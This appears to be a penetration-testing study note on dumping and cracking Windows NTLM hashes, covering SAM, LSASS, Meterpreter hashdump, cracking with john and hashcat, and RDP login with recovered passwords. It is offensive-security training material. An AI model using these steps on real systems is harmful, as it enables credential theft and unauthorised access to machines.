 ```yaml
---
up: "[[Dumping & Cracking Hashes]]"
---
```


# Windows NTLM Hashes

- Windows strores hashed user account passwords locally in the SAM database
- Authentication and verification or user credentials is facilitated by the Local Security Authority (LSA) process
- Windows utilizes different types of hashes:
	- LM
	- NTLM
- Now LM is disabled

## SAM database

- Security Account Manager, is a database file responsible for managing user accounts and passwords on Windows
- The SAM database cannot be copied while the OS is running
- Windows kernel keeps the SAM database locked so attacker tipically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process
- In modern version of Windows the SAM is encrypted with a syskey
- Elevated privileges are required in order to access and interact with the LSASS process

## NTLM (NTHash)

- Collection of authentication protocols that are utilzed in Windows to facilitate authentication between computers

## Dumping & Cracking NTLM Hashes

- Dump can be done using various utilities like:
	- `hashdump`
	- `Mimikatz`
- After dumping the hashes the cracking can be done with:
	- `john`
	- `hashcat`

## Demonstration

```bash
m> getprivs
m> pgrep lsass
m> migrate <id>
m> hashdump
<hashes>
# paste hashes in hashes.txt
```

With ``john``:

```bash
john --list=formats
john --format=NT hashes.txt [--wordlist=<wordlist>]
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

With ``hashcat``:

```bash
hashcat -m <hash_id>
# id 1000 for NTLM
hashcat -a3 -m 1000 hashes.txt rockyou.txt 
```

Then you can login to the target using RDP for example:

```bash
xfreerdp /u:<username> /p:<password> /v:<ip>
```
